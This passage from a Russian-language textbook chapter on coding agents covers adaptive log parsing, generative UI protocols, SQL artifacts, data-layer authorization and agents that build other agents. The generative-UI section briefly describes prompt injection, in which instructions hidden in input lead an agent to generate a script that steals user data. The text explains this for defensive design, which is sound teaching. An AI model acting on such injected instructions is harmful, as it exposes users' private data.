Этот «универсальный клей» можно распространить и на **системы, вообще не имеющие API**: когда внешняя система предоставляет только графический интерфейс, агент может сначала оперировать интерфейсом через Computer Use (подробно рассмотрим в главе 6), а затем закрепить успешно выполненную последовательность операций кодом в виде RPA-инструмента — при следующем выполнении той же задачи достаточно просто запустить этот код, с чрезвычайно высокой скоростью и стабильностью, без необходимости снова прибегать к дорогостоящему визуальному «размышлению». Можно сказать, что RPA — это предельная форма «системного адаптера» применительно к системам без интерфейса; этот механизм «записи и закрепления рабочего процесса» будет раскрыт в главе 9.

Обработка данных — одна из самых распространённых, но и самых головоломных задач в программных системах. Корень проблемы — в многообразии и постоянной изменчивости форматов данных. Одна и та же система в процессе эволюции может неоднократно менять формат данных — добавлять новые поля, менять вложенную структуру, вводить новые типы. Написание парсинг-кода вручную под каждый формат обходится очень дорого в поддержке: каждое изменение формата требует обновления логики разбора, проверки совместимости, развёртывания новой версии.

Генерация кода предлагает совершенно новый подход: пусть агент при встрече с новым форматом временно генерирует парсинг-код на основе образца данных, а система автоматически подстраивается под эволюцию формата данных без вмешательства человека.

**Разбор и визуализация логов агента.**

Наблюдаемость системы агента зависит от возможности визуализировать процесс выполнения. Сложная задача агента может включать сотни шагов, множественные вызовы LLM, десятки выполнений инструментов, взаимодействие нескольких субагентов. Визуализация этих данных сталкивается с несколькими трудностями: разные инструменты возвращают данные разной структуры, формат постоянно эволюционирует по мере итераций системы; полная trajectory может содержать сотни тысяч символов, и нужно найти баланс между обзорностью и детализацией.

Генерация кода предлагает изящное решение: выстроить цикл обратной связи с автоматическим исправлением. Когда фронтенд сталкивается с логом, формат которого не удаётся разобрать, вместо показа ошибки он автоматически передаёт информацию о сбое (образец исходного лога, подробное сообщение об ошибке) агенту. Агент анализирует структуру образца данных и генерирует код, способный корректно её разобрать. Код сначала автоматически тестируется в виртуальном браузере (проверяется корректность разбора, а с помощью Vision LLM проверяется визуальный результат), и после прохождения теста горячо обновляется во фронтенд-системе.

> **Эксперимент 5-8 ★★★: адаптивная система разбора логов**
>
> **Цель эксперимента**: построить систему визуализации логов агента, способную к самоэволюции.
>
> **Техническое решение**: изначальная система поддерживает только базовый формат. Фронтенд обнаруживает сбой разбора → сообщает агенту → тот генерирует парсинг-код → код тестируется в виртуальном браузере → выполняется горячее обновление и развёртывание. Весь процесс автоматизирован.
>
> **Критерии приёмки**: автоматическое обнаружение сбоя запускает обучение, сгенерированный код проходит автоматическое тестирование, после горячего обновления новый формат корректно разбирается.
>

**Автоматический анализ логов выполнения агента и диагностика проблем.**

Агент в продакшене генерирует большой объём логов trajectory (записи полного процесса выполнения каждой задачи). Однако выявление проблем по логам, определение первопричины и построение тестовых случаев — трудоёмкая работа. Определение места проблемы затруднено, потому что провал задачи может быть вызван совместной ошибкой нескольких модулей; воспроизведение обходится дорого, потому что сложность продакшен-среды трудно смоделировать в тестовой среде; уже исправленные проблемы легко всплывают снова из-за отсутствия систематического регрессионного тестирования.

Генерация кода даёт автоматизированный путь диагностики. Агент может прочитать продакшен-логи, сопоставить их с документацией по архитектуре и PRD (документом с требованиями к продукту) и автоматически определить, соответствует ли процесс выполнения ожиданиям, локализовав проблемный участок и модуль. На основе результатов анализа генерируется структурированный отчёт о проблеме (приоритет, модуль, описание, рекомендации по улучшению) и тестовые случаи для регрессии — тесты ссылаются на ID проблемной trajectory и ключевые раунды взаимодействия, тестовый фреймворк автоматически воспроизводит их, чтобы проверить, даёт ли исправленная система корректное поведение при тех же входных данных. Наконец агент через MCP подключается к GitHub, создаёт Issue и назначает его соответствующему разработчику, замыкая полностью автоматизированный цикл от обнаружения проблемы до распределения задач.

> **Эксперимент 5-9 ★★★: система интеллектуальной диагностики продакшен-логов**
>
> **Цель эксперимента**: автоматически находить проблемы в продакшен-trajectory, генерировать тестовые случаи, создавать рабочие задачи.
>
> **Техническое решение**: агент читает набор trajectory из продакшен-среды, анализирует их в сопоставлении с документацией по архитектуре системы и PRD: выявляет паттерны проблем, локализует затронутые модули. Генерирует структурированный отчёт о проблеме (приоритет, модуль, описание, рекомендации по улучшению). Автоматически генерирует тестовые случаи для регрессии (со ссылками на ID trajectory и раунды взаимодействия, для автоматического воспроизведения тестовым фреймворком). Через MCP подключается к GitHub и автоматически создаёт Issue.
>
>
> 
>
>

### Код как генеративный UI

Традиционные системы агентов в основном опираются на чисто текстовый диалог с пользователем. Однако текст как линейный, единообразный способ взаимодействия во многих сценариях неэффективен. Когда нужно собрать структурированную информацию, повторяющиеся вопросы-ответы делают диалог громоздким; когда нужно представить сложные отношения между данными, выразительность чистого текста ограничена; когда нужно дать пользователю выбор из нескольких вариантов, текстовый список намного менее нагляден, чем визуальный интерфейс.

Генерация кода даёт возможность преодолеть эти ограничения: агент может динамически генерировать формы, интерактивные диаграммы и даже полноценные веб-приложения, поднимая статический текстовый диалог до уровня богатого мультимодального взаимодействия. Этот паттерн, при котором агент динамически генерирует интерфейс, называется **генеративный UI** (Generative UI).

**Протоколы класса A2UI: стандартизация генеративного UI.**

Когда агент напрямую генерирует HTML и JavaScript-код в качестве UI, возникает принципиальная проблема безопасности: сгенерированный код может содержать вредоносное содержимое. Например, если кто-то намеренно спрятал команду во входных данных, агент может подвергнуться инъекции промпта (prompt injection) и незаметно для себя сгенерировать скрипт, который тайно ворует данные пользователя. Здесь важно разделить причину и следствие: причина — это **инъекция промпта** (вредоносная инструкция подмешана во входные данные агента), а конечный **эффект** — выполнение вредоносного скрипта в браузере и кража данных — похож на классический для веба XSS (Cross-Site Scripting, межсайтовый скриптинг), но саму атаку в целом нельзя называть XSS. Декларативные протоколы интерфейса, представленные, например, A2UI (Agent-to-User Interface), предлагают более безопасное направление: агент не генерирует напрямую исполняемый код, а лишь выводит «описание интерфейса» (в формате JSON), например: «покажи таблицу из 3 строк и 2 столбцов с заголовком «Данные о продажах»». Клиент, получив такое описание, рендерит интерфейс с помощью собственных заранее подготовленных безопасных компонентов. Это похоже на ресторанное меню: посетитель (агент) может заказать только то, что есть в меню (заранее определённые компоненты), но не может сам зайти на кухню и приготовить что угодно (выполнить произвольный код). Здесь стоит прояснить распространённую путаницу: AG-UI (Agent-User Interaction, предложен CopilotKit), несмотря на похожее название, вовсе не является языком описания интерфейса — это сопутствующий **протокол событий/передачи данных**, отвечающий за потоковую передачу состояния выполнения агента (сообщения, вызовы инструментов, патчи состояния) во фронтенд; он сам по себе может даже нести на себе полезную нагрузку в виде описаний A2UI. Поэтому эти два протокола дополняют друг друга, а не относятся к одному классу, и их не стоит ставить в один ряд как два «декларативных протокола интерфейса».

Ключевой принцип проектирования таких протоколов — **безопасность прежде всего**: клиент поддерживает доверенный каталог компонентов (например, Card, Button, TextField, Table), и агент может запрашивать рендеринг только уже существующих в каталоге компонентов, не имея возможности внедрить произвольный код. Клиент рендерит с помощью своих собственных нативных компонентов, а не исполняет произвольный HTML, сгенерированный агентом. Такие протоколы обычно также поддерживают **кросс-платформенность** (одно и то же описание может быть отрендерено в React, Flutter, нативных приложениях) и **инкрементную генерацию** (потоковый формат JSONL, рендеринг по мере получения данных).

Разумеется, декларативный подход подходит для стандартизированных сценариев взаимодействия (формы, таблицы, карточки), а для сильно кастомизированных потребностей (например, кастомная визуализация, игровой интерфейс) прямая генерация кода остаётся более гибким выбором. Ниже рассмотрим конкретное применение обоих паттернов.

**Доставка результата в виде HTML: замена отчёта на Markdown.** Генеративный UI используется не только в самом процессе взаимодействия, но и меняет форму, в которой агент доставляет итоговый **результат работы**. Традиционно агент по завершении задачи выдаёт отчётный документ в Markdown; но пролистывать страница за страницей линейно расположенный Markdown на самом деле не очень удобно для чтения. По мере роста способности агента генерировать фронтенд-код всё больше практик переходят к тому, чтобы он напрямую выдавал HTML. По сравнению с Markdown у HTML-артефакта есть несколько явных преимуществ. Во-первых, это **интерактивная демонстрация**: можно наглядно, в форме, с которой можно взаимодействовать, показать, как работает система, — пользователь обычно понимает это с первого взгляда, что превосходит большие фрагменты текстового описания. Во-вторых, это **лучшая визуализация данных**: данные представляются диаграммами, а не таблицами, к тому же можно строить интерактивные компоненты, позволяющие пользователю самостоятельно просматривать, фильтровать, углубляться в интересующие его детали. В-третьих, это **непрерывно совершенствуемый артефакт**: HTML-сайт не обязан быть мёртвым продуктом, выдаваемым разово в момент завершения задачи, — агент может постоянно дополнять и совершенствовать его по мере продвижения работы.

Приведу в пример собственный опыт написания статей: для каждого исследовательского проекта я веду интерактивный сайт[^ch5-4], который служит одновременно и итоговым результатом, и живым документом самого исследовательского процесса — я прошу агента постоянно обновлять его по мере продвижения экспериментов. Этот сайт выполняет как минимум три функции. Первая — **отслеживаемость данных экспериментов**: конкретные данные каждого эксперимента, использованные промпты и исходные ответы LLM можно построчно просмотреть на сайте; когда всё это разложено перед глазами, становится гораздо легче заметить проблемы в построении данных, их формате, распределении, а также увидеть, есть ли систематическое расхождение между ответом LLM и оценкой judge. Вторая — **мониторинг метрик обучения**: все кривые в процессе обучения выкладываются прямо на страницу, что позволяет в любой момент проверить, здоровы ли **терапевтические метрики** модели. Здесь я заимствую медицинский термин «терапевтический» — терапевтические метрики отражают внутренние сигналы того, идёт ли сам процесс обучения нормально: например, потеря на обучении и на валидации, норма градиента, скорость обучения, перплексия при генерации токенов моделью (perplexity, мера того, насколько модель «уверена» в собственной генерации), а также в случае обучения с подкреплением — награда, KL-дивергенция, энтропия политики. Это отличается от итоговых результатных метрик вроде точности выполнения задачи: подобно тому как физиологические показатели медосмотра соотносятся с внешним проявлением состояния человека, терапевтические метрики зачастую раньше вскрывают такие проблемы, как несходимость потерь, взрыв градиента, крах обучения. Третья — **демонстрация принципа работы**: наглядно, визуально показать принцип работы всей системы, чтобы с одного взгляда было понятно, какова структура построенной на базе ИИ системы.

[^ch5-4]: сайт исследовательских проектов автора см. https://01.me/research/, где каждый проект сопровождается постоянно обновляемым интерактивным сайтом.

**Уточнение намерения пользователя.**

Когда потребности пользователя выражены нечётко или неполно, агенту нужно собрать необходимую информацию с помощью уточняющих вопросов. Продукты вроде OpenAI Deep Research обычно используют текстовый вопрос-ответ, но у этого подхода есть явные ограничения: по эффективности — каждый вопрос требует раунда диалога, десять точек уточнения требуют десяти раундов взаимодействия; по выразительности — между некоторыми вопросами есть зависимости (например, «выбор пункта назначения путешествия» влияет на доступные варианты «способа передвижения»), и чистому тексту трудно выразить такую каскадную связь.

С помощью генерации кода агент может создавать структурированный интерфейс взаимодействия вместо текстового вопрос-ответа. Рис. 5-8 показывает процесс динамической генерации формы, иллюстрируя, как агент превращает уточняющие вопросы в структурированный интерфейс, заполняемый за один раз. Агент генерирует HTML-форму, содержащую разные элементы ввода — текстовое поле собирает открытую информацию, выпадающее меню даёт пользователю выбор из заранее определённых вариантов, флажки позволяют выбрать несколько вариантов, выбор даты упрощает ввод времени. Более того, агент может генерировать каскадные формы — реализуя динамическую логику через JavaScript: выбор определённого варианта автоматически показывает или скрывает последующие вопросы, динамически обновляет доступные варианты. Пользователь заполняет всю форму за раз, без множества раундов диалога, и при этом ясно видит всю информацию, которую нужно заполнить, и логическую связь между вопросами.


> **Эксперимент 5-10 ★★: система уточнения намерения с динамической генерацией форм**
>
> **Цель эксперимента**: проверить способность агента уточнять намерение пользователя через динамическую генерацию HTML-форм.
>
> **Техническое решение**: агент анализирует запрос пользователя, выявляет точки уточнения, генерирует код формы с каскадной логикой. Фронтенд рендерит форму, пользователь заполняет и отправляет один раз, агент разбирает JSON-данные и продолжает выполнение задачи.
>
> **Критерии приёмки**: пользователь вводит «Хочу купить билет на самолёт до Пекина», агент генерирует форму, включающую: город отправления (текстовый ввод), дату отправления (выбор даты), тип поездки (одиночный выбор: в один конец/туда-обратно), дату обратного рейса (отображается только при выборе «туда-обратно»). Пользователь заполняет всю информацию за один раз и отправляет.
>

**Генерация SQL-запросов.**

Запросы к базе данных — сценарий, в котором генерация кода может существенно улучшить опыт взаимодействия. Традиционный доступ к базе данных опирается на GUI-инструменты или ручное написание SQL: первое неудобно в использовании, второе требует от пользователя специальных знаний. Агент может преобразовывать естественный язык в SQL, но здесь есть ключевой выбор в проектировании: заставить ли агента выполнить SQL и описать результат на естественном языке, или заставить агента сгенерировать SQL-код в качестве артефакта, который фронтенд выполнит напрямую?

Первый вариант выглядит «умнее», но крайне неэффективен — результат запроса может содержать тысячи строк большой таблицы, и заставлять LLM прочитать их и описать текстом не только тратит огромное число токенов и занимает много времени, но и, что серьёзнее, при «переписывании» данных LLM очень легко ошибается. Более удачное решение — **паттерн артефакта**. Рис. 5-9 показывает рабочий процесс агента SQL-запросов: агент сам не читает данные, а генерирует код SQL-запроса, передавая этот код системе как независимый «продукт» (артефакт). Система с этим SQL напрямую обращается к базе данных, а полученные данные отрисовывает в виде таблицы, которую видит пользователь. На протяжении всего процесса данные идут напрямую из базы данных в интерфейс пользователя, полностью минуя LLM как «посредника» — LLM отвечает только за написание запроса и не должен сам читать тысячи строк данных, чтобы потом пересказывать их пользователю, что и быстрее, и точнее.

Сгенерированные SQL и код визуализации нельзя выполнять напрямую. Уровень исполнения должен использовать учётные данные базы данных только для чтения, разбирать SQL, разрешать лишь одобренные операторы `SELECT` и отклонять DDL, DML и запросы из нескольких операторов. Значения пользователя следует связывать серверными параметрами, задавая ограничения на время запроса, число возвращаемых строк, доступные таблицы и диапазоны дат. Код визуализации должен работать в песочнице, изолированной от сети и файловой системы, и выдавать только утверждённый формат результата. Паттерн артефакта сокращает путь данных, но не заменяет проверки авторизации и изоляцию исполнения.


Далее агент может сгенерировать два артефакта, образующих конвейер: SQL-запрос + код визуализации (например, столбчатую диаграмму). Фронтенд напрямую передаёт результат SQL коду визуализации, LLM отвечает только за генерацию кода, не участвуя в передаче данных, — это и есть суть генерации кода как интерфейса.

> **Эксперимент 5-11 ★★: ERP-агент с взаимодействием на естественном языке**
>
> ERP (планирование ресурсов предприятия) — ключевая система предприятия, которая обычно использует GUI-интерфейс, а сложные операции требуют множества кликов мышью. ИИ-агент может преобразовывать запросы пользователя на естественном языке в SQL-выражения, реализуя автоматизированные запросы.
>
> Требуется создать базу данных PostgreSQL с двумя таблицами: (1) таблица сотрудников, содержащая ID сотрудника, имя, отдел, уровень, дату приёма на работу, дату увольнения (пусто означает, что сотрудник работает); (2) таблица зарплат, содержащая ID сотрудника, дату выплаты, зарплату (одна запись в месяц). Агент должен автоматически ответить на вопросы:
>
> 1. Сколько в среднем длится трудоустройство одного сотрудника?
> 2. Сколько работающих сотрудников в каждом отделе?
> 3. В каком отделе средний уровень сотрудников самый высокий?
> 4. Сколько новых сотрудников принято в каждый отдел в этом и прошлом году?
> 5. Какова средняя зарплата в отделе А с марта позапрошлого года по май прошлого года?
> 6. У отдела А или у отдела Б средняя зарплата была выше в прошлом году?
> 7. Какова средняя зарплата сотрудников каждого уровня в этом году?
> 8. Какова средняя зарплата за последний месяц у сотрудников со стажем до года, от года до двух и от двух до трёх лет?
> 9. Каким 10 сотрудникам зарплата выросла больше всего с прошлого года по этот?
> 10. Есть ли задержки зарплаты (сотрудник работал в определённом месяце, но зарплата не выплачена)?
>

**Динамическая генерация ПО.**

Предельное применение способности генерации кода — позволить агенту полностью динамически, с нуля создавать программное обеспечение. «Imagine with Claude» от Anthropic демонстрирует границы этой возможности: пользователь формулирует потребность, Claude в реальном времени генерирует фронтенд-интерфейс и логику взаимодействия, пользователь взаимодействует со сгенерированным ПО, Claude меняет код, генерируя новый интерфейс, показывающий результат операции. На протяжении всего процесса пользователь видит приложение, возникающее из ничего и непрерывно эволюционирующее.

Однако такой полностью динамический режим генерации связан с высокой стоимостью и задержкой, лучше подходя как эксперимент, демонстрирующий границы возможностей. Более практичное направление — **кастомизация на основе уже существующего фреймворка**. Этот «полукастомный» режим сохраняет стабильность базового ПО, одновременно открывая контроль пользователю в определённых измерениях — пользователь говорит «сделай кнопку синей», «добавь на боковую панель меню быстрого доступа», «измени шрифт на более удобочитаемый», агент понимает потребность и меняет фронтенд-код, а горячая загрузка (HMR, Hot Module Replacement, локальная горячая замена, сохраняющая состояние приложения без необходимости полной перезагрузки страницы) сразу же вступает в силу. Это превращает «одноразмерный» стандартный продукт в персонализированный опыт «у каждого свой».

> **Эксперимент 5-12 ★★: система диалоговой кастомизации интерфейса**
>
> **Цель эксперимента**: реализовать способность пользователя мгновенно кастомизировать интерфейс ПО через диалог на естественном языке, проверить эффективность генерации кода, поддерживаемой механизмом горячей загрузки, в обеспечении персонализированного пользовательского опыта.
>
> **Техническое решение**: построить базовое чат-бот приложение (фронтенд на React + бэкенд на FastAPI), и фронтенд, и бэкенд работают в режиме разработки с поддержкой горячей загрузки (HMR для React, reload для FastAPI). Пользователь в диалоге выдвигает требования по кастомизации UI (цвет, шрифт, разметка, положение компонентов и т. д.), агент самостоятельно меняет код. Механизм горячей загрузки автоматически обнаруживает изменения файлов, фронтенд перекомпилируется и обновляется, пользователь видит изменения интерфейса в реальном времени. Поддерживается кастомизация в несколько раундов итераций.

Динамическое ПО вместе с гибкостью меняет и традиционную предпосылку безопасности. Раньше бизнес-код приложения разрабатывался, проверялся, тестировался и развёртывался, а затем оставался относительно стабильным, поэтому проверки авторизации обычно находились на уровне приложения. Если агент в любой момент может сгенерировать или переписать интерфейсы, рабочие процессы и даже код доступа к данным, этот уровень больше не стабилен. Новый код может пропустить незаметную проверку авторизации, открыть ранее скрытое поле или обойти существующую проверку через другой путь вызова. Будь то обычная ошибка генерации или опасный код после prompt injection, результат один: граница полномочий, которую должен был поддерживать бизнес-код, может незаметно разрушиться.

Поэтому цель безопасности динамического ПО не может заключаться в том, чтобы «заставить ИИ правильно написать каждую проверку авторизации». Нужно, чтобы **ограничения прав оставались невозможными для обхода, даже если ИИ написал ошибочный код**. Если проверки авторизации находятся в динамически генерируемой бизнес-логике, они принадлежат тому же домену доверия, что и код, который должны ограничивать. Промпты, тесты и ревью кода снижают вероятность ошибок, но не могут исчерпывающе покрыть все пути исполнения, появляющиеся в будущих поколениях, и не являются окончательной границей безопасности.

Более надёжная архитектура **переносит границу доверия на уровень данных**. Динамически создаваемый код приложения занимается представлением, рабочими процессами и бизнес-оркестрацией, а стабильный механизм, проверенный человеком, применяет правила о том, кто и что может делать с конкретными данными. Строгая безопасность строк базы данных ограничивает пользователя записями своего арендатора; ограничения и валидаторы отклоняют недопустимые состояния; управляемые представления, хранимые процедуры или сервисы доступа к данным публикуют только разрешённые операции. Каждое чтение и запись должны нести **контекст доступа**, связанный доверенным рантаймом и содержащий пользователя, арендатора, роль или идентификатор агента. Сгенерированный код получает только эту ограниченную идентичность: он не может подделать её или получить привилегированные учётные данные базы, обходящие правила. Даже если собственная проверка пропущена, уровень данных отклонит несанкционированную операцию.

Перенос авторизации вниз не означает, что всю бизнес-логику нужно поместить в базу данных. Уровень приложения по-прежнему может выполнять предварительные проверки для быстрой обратной связи, но окончательное решение должно оставаться за уровнем данных. Одно и то же правило может улучшать пользовательский опыт сверху и давать гарантию снизу. Для этого каждый путь доступа к данным должен проходить через доверенный уровень данных; сгенерированный код не должен подключаться напрямую в обход него. Тогда верхний слой может постоянно изменяться, а не подлежащие компромиссу ограничения прав остаются в слое, который не переписывается при каждой генерации. Это и есть слой данных из трёхслойного каркаса главы 1 — тот, который труднее всего обойти.

> **Эксперимент 5-13 ★★★: Объекты данных со встроенными разрешениями для динамического ПО**
>
> **Цель эксперимента**: построить хранилище объектов, позволяющее динамически генерировать или переписывать код приложения, но при этом принуждающее авторизацию и целостность данных на уровне данных. Проверить, что сгенерированный код не может пересечь стабильную границу, пропустив переход состояния, записав значение вне диапазона или прочитав данные другого арендатора.
>
> **Техническое решение**: предоставить промежуточный слой Python-хранилища объектов поверх PostgreSQL. Типы данных объявляют правила разрешений, контекст доступа, валидаторы, связи объектов и реакции; каждое чтение и запись объекта последовательно проходят через конвейер разрешений и валидации, сохранение, проверку ссылочной целостности и т. д.
>
> **Критерии приёмки**: корректное обновление конвейера найма выполняется; уровень данных отклоняет пропуск перехода состояния кандидата, зарплату вне диапазона должности и чтение между арендаторами.

### Код создаёт код: самозарождение агента

В предыдущих разделах мы показали применение генерации кода в разных областях — от математического мышления до создания документов и кастомизации интерфейсов. Если довести эти возможности до предела, возникает естественный вопрос: может ли агент использовать способность к генерации кода, чтобы создать другого агента?

Здесь нужно провести чёткую границу с восьмой главой. В этом разделе рассматривается, как Coding Agent с помощью кода **чинит и создаёт агентов, подобных себе** — самостоятельно восстанавливается, копирует себя и по мере необходимости создаёт новых агентов; основное внимание уделяется генерации кода и конструированию систем, поэтому эта способность называется **самозагрузкой** (bootstrapping). Основная тема главы 9 — не повторное объяснение того, как писать такой код, а то, как оценённый производственный опыт запускает самомодифицирование: как выбрать знания, инструкции, программы или параметры в качестве объекта обновления, сформировать кандидатную версию из стабильной и контролировать риски посредством регрессионного тестирования, поэтапного выпуска и отката. Эти две главы пересекаются в вопросе «изменения кода», но отвечают на разные вопросы.


**Самовосстановление агента: OpenClaw Doctor.**

Важная предпосылка самозарождения агента — способность к самовосстановлению. Команда `doctor` в OpenClaw как раз воплощает эту способность — она автоматически обнаруживает три категории проблем:

- **Аномалии конфигурации**: просроченные OAuth-токены, устаревшие форматы конфигурации, конфликты портов
- **Проблемы состояния**: устаревшие файлы блокировки сессий, отсутствующие зависимости плагинов
- **Проблемы работоспособности сервисов**: не запущен шлюз, отсутствует образ песочницы

Затем проблемы автоматически устраняются по многоуровневой стратегии восстановления: безопасные исправления (нормализация конфигурации, очистка файлов блокировки) выполняются автоматически; рискованные операции (перезапуск сервисов, принудительная перезапись конфигурации) требуют подтверждения пользователя.

Здесь важно избежать преувеличения: у часто встречающихся проблем вроде просроченных токенов, файлов блокировки, конфликтов портов есть чёткие правила обнаружения и фиксированные действия по исправлению — `doctor` сначала закрывает их **набором детерминированных проверок**, и в этом нет принципиального отличия от традиционных скриптов эксплуатации. Настоящая способность агента проявляется на втором уровне: для сложных проблем, не покрытых детерминированными правилами, `doctor` передаёт их LLM, которая анализирует логи ошибок, понимает семантику конфигурационных файлов, выводит причинно-следственные связи проблемы и генерирует целевое решение. Детерминированные проверки гарантируют стабильное устранение частых проблем, а LLM подстраховывает на «длинном хвосте» сложных случаев — только вместе эти два уровня позволяют `doctor --fix` автоматически решать значительную часть распространённых проблем со шлюзом. Такая модель «агент чинит агента», когда объектом работы агента становится уже не внешняя система, а его собственная среда выполнения, поднимает способность к самовосстановлению с уровня адаптера к системе до уровня инфраструктуры самозарождения агента.

**Ключевые приёмы для того, чтобы агент писал агентов.**

Создание качественного агента намного сложнее генерации обычного прикладного кода, потому что требует глубокого понимания архитектурных паттернов агентов, лучших практик и типичных ловушек. Без такой предметной экспертизы даже самая мощная модель генерации кода может создать агента с серьёзными архитектурными изъянами. Типичные дефекты:

1. **Небрежность в управлении контекстом**: не используется стандартный формат контекста, обсуждавшийся во второй главе, траектория превращается в чистый текст и запихивается в контекст без учёта, игнорируется оптимизация KV Cache за счёт структурированных сообщений, в цикле вызова инструментов есть граничные баги
2. **Небрежность в проектировании инструментов**: краткие описания, отсутствие пояснений границ использования и списка запретов, отсутствие конкретных примеров параметров
3. **Отставание в выборе технологий**: склонность использовать самые распространённые в обучающих данных, но уже устаревшие модели и API. Решение: поддерживать базу знаний о SOTA-решениях или дать агенту возможность поиска
4. **Разрыв с внешней экосистемой**: использование устаревших API, неподдерживаемых библиотек или дефектных паттернов

Самый эффективный путь решения этих проблем — не в том, чтобы исчерпывающе перечислить все правила в промпте, а в том, чтобы **предоставить качественную реализацию агента как эталонный пример**, направляя агента генерации кода на модификацию этого примера, а не на разработку с нуля.

Преимущества «генерации на основе примера» очевидны: сам код примера — носитель лучших практик, агенту проще правильно модифицировать пример, чем писать с нуля, удачные архитектурные решения естественным образом сохраняются, и не нужно проговаривать в промпте каждое правило по отдельности.

Когда агент получает задачу разработать нового агента, ему следует сначала скопировать собственный код (или другую проверенную качественную реализацию), а затем внести целевые изменения: скорректировать системный промпт под новую роль, заменить или добавить/убрать инструменты под новую функциональность, изменить бизнес-логику, сохранив архитектурный каркас. Такая модель «самокопирование с адаптивной модификацией» гарантирует, что новый агент наследует ключевые технические преимущества, и в то же время допускает дифференциацию по отдельным параметрам — подобно копированию генов с мутацией в биологии.

> **Эксперимент 5-14 ★★★: разработать агента, способного создавать агентов**
>
> **Цель эксперимента**: построить кодинг-агента с возможностями метапрограммирования (Metaprogramming, то есть написания программ, генерирующих или изменяющих другие программы), способного автоматически создавать новые системы агентов по запросу пользователя, соблюдая лучшие практики.
>
> **Техническое решение**: предоставить кодинг-агенту качественную реализацию агента в качестве эталонного примера (можно использовать сам проект ch5/coding-agent). При получении запроса на создание нового агента агент сначала копирует этот эталонный код, а затем вносит целевые изменения на основе конкретных требований пользователя.
>
> **Критерии приёмки**: сгенерированный агент успешно запускается и выполняет базовые задачи. Проверка использует стандартный формат сообщений и протокол вызова инструментов, а также актуальные рекомендуемые модели и API. Тестируется корректность управления контекстом и состоянием в многоходовом диалоге. Сравниваются два режима — генерация с нуля и модификация на основе примера — с подтверждением преимущества второго по качеству и эффективности.
>
>
> 
>
>

Самозарождение агента воплощает предельное применение способности к генерации кода — агент, способный создавать агентов, реализует самовоспроизведение интеллекта. На этом мы завершили последовательное изложение от основ кодинг-агента через многообразную ценность генерации кода к самозарождению.

## Итоги главы

В основе всего, что обсуждалось в этой главе, лежит одна и та же мысль: код — это не просто инструмент для написания программ, это язык, на котором агент формализует мышление и точно выражает свои намерения.

Ключевой вывод раздела о Harness-инженерии таков: высокая зрелость кодинг-агентов объясняется не тем, что модели генерации кода особенно сильны, а тем, что инфраструктура, накопленная десятилетиями программной инженерии — наборы тестов, системы типов, контроль версий, — сама по себе образует мощный harness. Этот вывод стоит распространить и на другие сценарии применения агентов. Раздел о сбоях и восстановлении после ошибок раскрывает другую сторону той же темы: надёжность агента зависит не от того, ошибается модель или нет, а от того, есть ли для каждого класса сбоев соответствующий путь обнаружения, восстановления и завершения.

Вторая часть главы показала широкую ценность генерации кода за пределами программирования — по шести измерениям, рассмотренным в основном тексте:

- **Инструмент мышления**: символьные вычисления и решение ограничений восполняют недостатки вероятностного мышления
- **Ограничение бизнес-правилами**: недвусмысленное выражение бизнес-правил, обеспечивающее детерминированную защиту в сценариях необратимых операций — ценность такой гарантии безопасности намного превышает затраты на реализацию
- **Генерация мультимедиа**: создание PPT, видео и другого мультимодального контента через механизм предложитель-рецензент
- **Адаптер системы**: автоматическое следование за эволюцией форматов, обеспечивающее полную автоматизацию разбора логов и диагностики проблем
- **Генеративный UI**: динамическое создание форм, визуализация данных и даже полноценных настраиваемых приложений — выход за рамки чисто текстового взаимодействия
- **Самозарождение агента**: исправление и создание подобных себе агентов кодом, реализация агента, способного создавать агентов

Ценность кода для агента в том, что он одновременно и средство выполнения задач, и механизм накопления знаний, создания инструментов, самооптимизации — настоящая «мета-способность».

Итак, мы объединили контекст, знания, инструменты и способность писать код в базовую архитектуру универсального агента; генерация кода стала её самой общей мета-способностью. Однако первые пять глав всё ещё исходят из того, что агент и мир действуют по очереди. Глава 6 добавляет последнюю часть «построения агента», расширяя пространства наблюдений и действий на асинхронные события, голос, экраны и физический мир; после этого глава 7 переходит к оценке и непрерывному совершенствованию.

## Вопросы для размышления

1. ★★ Генерацию кода называют «мета-способностью» агента. Но выполнение кода несёт риски безопасности — сгенерированный агентом код может содержать уязвимости, бесконечные циклы или приводить к исчерпанию ресурсов. Изоляция в песочнице решает часть проблем, но и ограничивает возможности кода (например, лишает доступа к сети или файловой системе). Как найти оптимальный баланс между безопасностью и возможностями?
2. ★★★ Самозагрузка агента — агент, способный создавать агентов, — реализует «самовоспроизведение интеллекта». Но каждая самозагрузка может вносить новые смещения или ошибки — накапливаются ли эти ошибки от поколения к поколению? Как предотвратить деградацию при самозагрузке агентов?
3. ★★ Агент генерации кода при разборе логов способен автоматически следовать за эволюцией формата. Но если изменение формата — это баг, а не ожидаемое изменение, адаптивность агента, наоборот, скрывает проблему. Как агенту различать «изменение, к которому нужно адаптироваться» и «аномалию, о которой нужно сообщить»?
4. ★★ В этой главе неоднократно использовался механизм предложитель-рецензент — при генерации PPT, монтаже видео и визуализации логов. Если эстетические предпочтения Reviewer не совпадают с предпочтениями целевого пользователя — например, Reviewer считает плотность информации разумной, а пользователю кажется, что слишком тесно, — цикл обратной связи может сойтись к неверному локальному оптимуму. Как включить пользовательскую обратную связь в цикл Reviewer?
5. ★★ В этой главе было показано несколько способов, которыми Coding Agent сохраняет опыт, полученный при выполнении и отладке, обратно в кодовую базу: записывает его в файлы базы знаний, обновляет архитектурную документацию, ведёт файлы инструкций проекта, закрепляет последовательности операций в виде кода. Если и дальше превращать этот опыт в правила системного Prompt, набор правил будет со временем неограниченно расти. Как проводить «сборку мусора» среди накопленных правил — выявлять и убирать избыточные или устаревшие пункты? Почему единичное успешное изменение кода ещё нельзя напрямую считать непрерывной эволюцией в смысле главы 9?
6. ★ «Команды, дружелюбные к удалённой работе, как правило, дружелюбны и к ИИ-агентам». Насколько ваша команда или организация далека от состояния «AI-ready» в плане документирования знаний? Какое препятствие самое большое?
7. ★★★ Саймон Уиллисон сформулировал «смертельное трио» для агентов (доступ к приватным данным, воздействие недоверенного контента, наличие возможности внешней коммуникации), в этой главе к нему добавлен четвёртый элемент — постоянная память. Как бы вы спроектировали политику безопасности для производственной среды, где одновременно нужно работать со всеми четырьмя факторами?
8. ★★ Паттерн Artifact позволяет агенту сгенерировать SQL или код визуализации, который напрямую выполняется фронтендом, минуя обработку больших объёмов данных через LLM. В чём преимущества и недостатки такого разделения труда — «агент генерирует код, система выполняет код» — по сравнению с традиционной моделью, где «агент напрямую даёт ответ»? Кроме того, сгенерированный SQL может выполнить разрушительную операцию, а сгенерированный HTML — содержать уязвимости. Как обеспечить безопасность системы?
